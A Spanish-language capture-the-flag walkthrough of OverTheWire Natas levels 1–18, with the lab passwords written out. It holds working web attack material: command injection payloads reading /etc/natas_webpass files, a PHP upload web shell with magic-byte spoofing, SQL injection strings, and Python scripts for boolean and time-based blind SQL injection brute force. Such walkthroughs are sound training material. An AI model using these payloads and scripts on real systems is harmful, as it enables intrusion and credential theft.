

# ⚡ Natas

## Level 1

Source :&#x20;

<--The password for natas1 is 0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq-->

## Level 2

Developer tool : < --The password for natas2 is TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI -->

## Level 3

Fuzzing con gobuster:

```shell
gobuster dir -u http://natas2.natas.labs.overthewire.org/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -U natas2 -P TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
```

Output:

```bash
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

## Level 4

Fuzzing gobuster:

```shell
gobuster dir -u http://natas3.natas.labs.overthewire.org/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -U natas3 -P 3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH -x txt,php,html
```

Output:

```python
robots.txt

User-agent: *
Disallow: /s3cr3t/

http://natas3.natas.labs.overthewire.org/s3cr3t/
user.txt
natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
```

> Flag: QryZXc2e0zahULdHrtHxzyYkj59kUxLQ

## Level 5

```html
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/" 

```

Opción 1: Curl

```shell
curl -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ -H "Referer: http://natas5.natas.labs.overthewire.org/" http://natas4.natas.labs.overthewire.org/

# -u natas4:tu_contraseña: Especifica el nombre de usuario y contraseña.
# -H "Referer: http://natas5.natas.labs.overthewire.org/": Añade la cabecera `Referer` con el valor requerido.
```

Opción 2 : Burpsuite

```python
"Abrimos Burpsuite, capturamos petición y cambiamos el Refer:"

De:
Referer: http://natas4.natas.labs.overthewire.org/

A:
Referer: http://natas5.natas.labs.overthewire.org/
```

Output:

```python
"Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK"
```

> Flag: 0n35PkggAPm2zbEpOU802c0x0Msn1ToK

## Level 6

```html
Access disallowed. You are not logged in
```

Opción 1: Curl

```shell
curl -D - -u natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK http://natas5.natas.labs.overthewire.org/index.php

Output: 
HTTP/1.1 200 OK
Date: Thu, 31 Oct 2024 23:06:32 GMT
Server: Apache/2.4.58 (Ubuntu)
Set-Cookie: loggedin=0
Vary: Accept-Encoding
Content-Length: 855
Content-Type: text/html; charset=UTF-8

curl -b "loggedin=1" -u natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK http://natas5.natas.labs.overthewire.org/index.php
# -b : especifica un valor determinado a la cookie
# Para mas valores: "nombre_cookie1=valor_modificado1; nombre_cookie2=valor_modificado2"

Output: 

<h1>natas5</h1>
<div id="content">
Access granted. The password for natas6 is 0RoJwHdSKWFTYR5WuiAewauSuNaBXned</div>
```

Opción 2: Burpsuite

```python
'Capturamos la petición.
Cambiamos el parametro `loggedin=0` a `logedin=1`

Output:

"Access granted. The password for natas6 is 0RoJwHdSKWFTYR5WuiAewauSuNaBXned"
```

> Flag: 0RoJwHdSKWFTYR5WuiAewauSuNaBXned

## Level 7

<figure><figcaption></figcaption></figure>

```python
Source:
<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>

#El script llama a includes/secret.inc
#Probamos de cargarlo en el navegador : 

http://natas6.natas.labs.overthewire.org/includes/secret.inc

Output:

<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>

Ponermos ese password en el imput secret:

"Access granted. The password for natas7 is bmg8SvU1LizuWjx3y7xkNERkHxGre0GS "
```

> Flag : bmg8SvU1LizuWjx3y7xkNERkHxGre0GS

## Level 8

.png>)

```python
Source: 

# <!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->

URL About: 
http://natas7.natas.labs.overthewire.org/index.php?page=about

URL Home: 
http://natas7.natas.labs.overthewire.org/index.php?page=home

# Probamos a cargar el fichero 

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

Output:

```python
xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q 
```

> Flag: xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q

## Level 9

<figure><figcaption></figcaption></figure>

```python
Source: 

<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>

### Desglose del Script

1. **Definición de la Variable `encodedSecret`**:
   
   $encodedSecret = "3d3d516343746d4d6d6c315669563362";
   
Aquí se define una cadena hexadecimal que representa un valor secreto previamente codificado. Esta cadena es el resultado de procesar una cadena original (el secreto real) a través de ciertas transformaciones.

2. **Función `encodeSecret`**:

	function encodeSecret($secret) {     return bin2hex(strrev(base64_encode($secret))); }`
  
Esta función toma un argumento, `$secret`, y realiza tres transformaciones:
   
-'Base64 Encoding': base64_encode($secret) codifica la cadena en formato Base64.

-'Reversión': strrev(...) invierte la cadena resultante de la codificación en Base64.

-'Conversión a Hexadecimal': bin2hex(...) convierte la cadena invertida en una representación hexadecimal.
```

Para obtener el valor original que generó el `encodedSecret`, necesitarías hacer lo contrario de lo que hace la función `encodeSecret`:

1. Convertir de Hexadecimal a Binario. > xdd

```shell
echo "3d3d516343746d4d6d6c315669563362" | xxd -r -p
Output:
==QcCtmMml1ViV3b
```

2. Invertir la Cadena. > 'rev'

```shell
echo "==QcCtmMml1ViV3b" | rev
Output:
b3ViV1lmMmtCcQ==
```

3. Decodificar de Base64.

```shell
echo "b3ViV1lmMmtCcQ==" | base64 -d
Ouput:
oubWYf2kBq
```

Probamos el pass:

"Access granted. The password for natas9 is ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t "

> Flag: ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t

## Level 10

<figure><figcaption></figcaption></figure>

```shell
"Buscamos: test"

http://natas9.natas.labs.overthewire.org/?needle=test&submit=Search

"Source"

Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

**Uso de `passthru` sin validación**: El uso directo de la entrada del usuario en el comando `grep` sin ninguna validación o sanitización es un riesgo de **inyección de comandos**. Esto permitiría que un atacante introduzca comandos adicionales a través de `$key` para ejecutarlos en el sistema.

```python
http://natas9.natas.labs.overthewire.org/?needle=test; cat /etc/natas_webpass/natas10

# Inyectammos el comando cat despues de cerrar la busqueda

Output:

t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
```

> Flag: t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu

## Level 11

.png>)

```php
SOURCE:


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>

```

<figure><figcaption></figcaption></figure>

```shell
Payload: 
"a  /etc/natas_webpass/natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk"
```

## Level 12

<figure><figcaption></figcaption></figure>

```php
"SOURCE"
<?

$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}

$data = loadData($defaultdata);

if(array_key_exists("bgcolor",$_REQUEST)) {
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
        $data['bgcolor'] = $_REQUEST['bgcolor'];
    }
}

saveData($data);


?>

<h1>natas11</h1>
<div id="content">
<body style="background: <?=$data['bgcolor']?>;">
Cookies are protected with XOR encryption<br/><br/>

<?
if($data["showpassword"] == "yes") {
    print "The password for natas12 is <censored><br>";
}

?>
```

Para resolver hay que usar la funcion xor declarada y encontrar en primer lugar la llave para recodificar la cookie con el parametro showpassword yes de nuevo:

```php
# Le pasamos la cookie de la pagina actual

$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff"); 
$cookie = "HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJA3dlTRg%3D"; 

function xor_encrypt($in, $defaultdata) { 
	$key = $defaultdata;
	$text = $in; 
	$outText = '';
"Iterate through each character" 
for($i=0;$i<strlen($text);$i++) {
	$outText .= $text[$i] ^ $key[$i % strlen($key)]; 
	}
	 return $outText; 
}
echo xor_encrypt(base64_decode($cookie),json_encode($defaultdata));
Clave XOR deducida: eDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeoe
Clave: "eDWo"
```

Ahora codificamos de nuevo con XOR para obtener el valor de la nueva cookie seteada a showpassword=yes:

```php
$data = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff"); function xor_encrypt($in)
{
		$key = 'eDWo'; 
		$text = $in; 
		$outText = '';
"Iterate through each character"
for($i=0;$i<strlen($text);$i++) {
	$outText .= $text[$i] ^ $key[$i % strlen($key)];
	 }
	 return $outText;
}
echo base64_encode(xor_encrypt(json_encode($data)));

Nuevo valor de la cookie: "HmYkBwozJw4WNyAAFyB1VUc9MhxHaHUNAic4Awo2dVVHZzEJAyIxCUc5"

```

Ahora, mandamos la nueva cookie y obtenemos el password:

> Flag: yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB

## Level 13

.png>)&#x20;

Vemos que podemos subier cualquier tipo de archivo. Provamos a subir un archivo php que lea el contenido de el password natas13

```php
 <?php echo file_get_contents('/etc/natas_webpass/natas13'); ?>
```

Caputramos la peticion con Burpsuite Interceptamos con : Do intercept - Response this request Vemos que fuerza un nombr aleatorio y le asigna extension jpg, pero no hay ninguna restricción que impida cambiarlo a php

Peticion original:&#x20;

<figure><figcaption></figcaption></figure>

Modificamos nombre y extension:

<figure><figcaption></figcaption></figure>

Vemos que ha subido el fichero php

<figure><figcaption></figcaption></figure>

Accedemos y capturamos la peticion para mandarla al repeater:

<figure><figcaption></figcaption></figure>

&#x20;Si hacemos un send, nos ejecuta el script y nos muestra el fihero seleccionado: /etc/natas\_webpass/natas13

<figure><figcaption></figcaption></figure>

> Flag: trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC

## Level 14

Mismo proceso que antes, pero modificando los magic numbers del fichero php que subimos

```php
 <?php echo file_get_contents('/etc/natas_webpass/natas13'); ?>
```

Para añadir los magic numbers sin alterar el contnido del script

```shell
(echo -ne '\xFF\xD8\xFF\xE0'; cat natas.php) > natas.jpeg
```

<figure><figcaption></figcaption></figure>

&#x20;Campturamos con Burp y modificamos el nombre por php


Original:&#x20;

<figure><figcaption></figcaption></figure>

&#x20;Modificado:

<figure><figcaption></figcaption></figure>


&#x20;Forward y nos lleva a :

.png>)

&#x20;Accedemos y:

<figure><figcaption></figcaption></figure>


&#x20;(Los primeros simbolos son por el magic number)

> Flag: z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ

## Level 15

Source:

```php
$query = "SELECT * from users where username=\\"".$_REQUEST["username"]."\\" and password=\\"".$_REQUEST["password"]."\\"";
```

SQLi:

```php
admin" or 1=1#

$query = "SELECT * from users where username=\\"admin" or 1=1# ".$_REQUEST["username"]."\\" and password=\\"".$_REQUEST["password"]."\\"";

Successful login! The password for natas15 is SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
```

Flag: SdqIqBsFcz3yotlNYErZSZwblkm0lrvx

## Level 16

```php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\\"".$_REQUEST["username"]."\\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>
```

El sitio verifica si los usuarios existen o no el siguiente codigo:

```php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\\"".$_REQUEST["username"]."\\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>
```

Comprobamos con la query los usuarios:

```php
?username=natas16"%23&debug=1
This user exist
```

Como estamos delante de una Blind SQLi tenemos que buscar el password por fuerza bruta.

This level is **Boolean Based on Blind SQL Injection**. so we can solve this with SQL query. **“username”: ‘natas16" AND password LIKE BINARY “‘ + “”** We can put this query in a python script and brute force to get the password.

Usamos el script:

```php
import requests
import re

characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

username = "natas15"
password = "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"

url = "<http://natas15.natas.labs.overthewire.org>"

session = requests.Session()

current_password = list()

while(True):
 for character in characters:
     print("Trying with: " + "".join(current_password) + character)
     response = session.post(url, data={"username": 'natas16" AND password LIKE BINARY "' + "".join(current_password) + character + '%" #'},auth=(username, password))
     if "This user exists." in response.text:
      current_password.append(character)
      break
 if len(current_password) == 32:
  break
```

Output: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo

## Level 17

```php
Output:

<pre>

<?

$key = "";

if(array_key_exists("needle", $_REQUEST)) {

$key = $_REQUEST["needle"];

}

if($key != "") {

if(preg_match('/[;|&`\\'"]/',$key)) {

print "Input contains an illegal character!";

} else {

passthru("grep -i \\"$key\\" dictionary.txt");

}

}

?>

</pre>

Filtered carracters: 
; & | ' ` "
```

Usamos el script para bruteforcear los usuarios:

```python
import requests  
from requests.auth import HTTPBasicAuth  
  
auth=HTTPBasicAuth('natas16', 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo')  
  
filteredchars = ''  
passwd = ''  
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'  
for char in allchars:  
 r = requests.get('<http://natas16.natas.labs.overthewire.org/?needle=doomed$>(grep ' + char + ' /etc/natas_webpass/natas17)', auth=auth)  
   
 if 'doomed' not in r.text:  
  filteredchars = filteredchars + char  
  print(f"Caracteres validos encontrados:{filteredchars}")  
  
for i in range(32):  
 for char in filteredchars:  
  r = requests.get('<http://natas16.natas.labs.overthewire.org/?needle=doomed$>(grep ^' + passwd + char + ' /etc/natas_webpass/natas17)', auth=auth)  
    
  if 'doomed' not in r.text:  
   passwd = passwd + char  
   print(f"Password validos encontrados:{passwd}")  
   break  
```

Output: EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC

## Level 18

Mismo codigo que natas15, pero esta vez , sin respuesta boleana, ya que la parte del echo está comentada.

```php
<?php

/*

CREATE TABLE `users` (

`username` varchar(64) DEFAULT NULL,

`password` varchar(64) DEFAULT NULL

);

- /

if(array_key_exists("username", $_REQUEST)) {

$link = mysqli_connect('localhost', 'natas17', '<censored>');

mysqli_select_db($link, 'natas17');

$query = "SELECT * from users where username=\\"".$_REQUEST["username"]."\\"";

if(array_key_exists("debug", $_GET)) {

echo "Executing query: $query<br>";

}

$res = mysqli_query($link, $query);

if($res) {

if(mysqli_num_rows($res) > 0) {

//echo "This user exists.<br>";

} else {

//echo "This user doesn't exist.<br>";

}

} else {

//echo "Error in query.<br>";

}

mysqli_close($link);

} else {

?>
```

Probaremos a inyectar SQL basada en tiempo

" OR IF(username='natas18', SLEEP(5), 0) #

Si ponemos cualquier usuario, no tarda nada en cargar. Si probamos con natas18, tarda 5 segundos en responder. Por lo que el usuario “natas18” si existe

Usamos el script, parecido al anterior, pero para que la query sea como la anterior:

```php
import requests
import time
from requests.auth import HTTPBasicAuth

# Configuración
url = "<http://natas17.natas.labs.overthewire.org/>"  # URL del formulario de login
known_username = "natas18"  # Usuario para el cual queremos exfiltrar el password
extracted_password = ""

# Credenciales anteriores
username= "natas17"
password= "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC"

# Caracteres posibles en el password (puedes ajustar según sea necesario)
possible_chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

# Función para probar un carácter en una posición específica
def check_character(position, character):
    # Inyección SQL para verificar si el carácter en la posición es correcto
    payload = f"{known_username}\\" AND IF(BINARY SUBSTRING(password, {position}, 1) = '{character}', SLEEP(5), 0) #"
    
    
    # Datos de la solicitud
    data = {'username': payload, 'password': 'dummy_password'}

    # Medir el tiempo de respuesta
    start_time = time.time()
    response = requests.post(url, data=data, auth=HTTPBasicAuth(username, password))
    end_time = time.time()

    # Verificar si hubo un retraso (indica que el carácter es correcto)
    return end_time - start_time > 4  # Ajuste de umbral en segundos

# Proceso de exfiltración
print(f"Extrayendo contraseña para el usuario: {known_username}")

for position in range(1, 33):  # Supongamos que la contraseña tiene una longitud máxima de 32 caracteres
    found = False
    for char in possible_chars:
        if check_character(position, char):
            extracted_password += char
            print(f"Posición {position}: {char}")
            found = True
            break
    if not found:
        print("Fin de la contraseña alcanzado.")
        break

print(f"Contraseña extraída: {extracted_password}")

```

* **`auth` en `requests.post`**: Añadimos `auth=HTTPBasicAuth(username, password)` a la solicitud `requests.post`, lo cual permite que el script se autentique en el servidor usando las credenciales conocidas (`username` y `password`).
* **Parámetro `username` y `password`**: Define estos valores al inicio del script para las credenciales de autenticación HTTP básica.
* **Condicional `BINARY` en SQL**: Usamos `BINARY` en la consulta SQL para que sea sensible a mayúsculas y minúsculas, lo que permite diferenciar entre `a` y `A`.

Output: 6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ

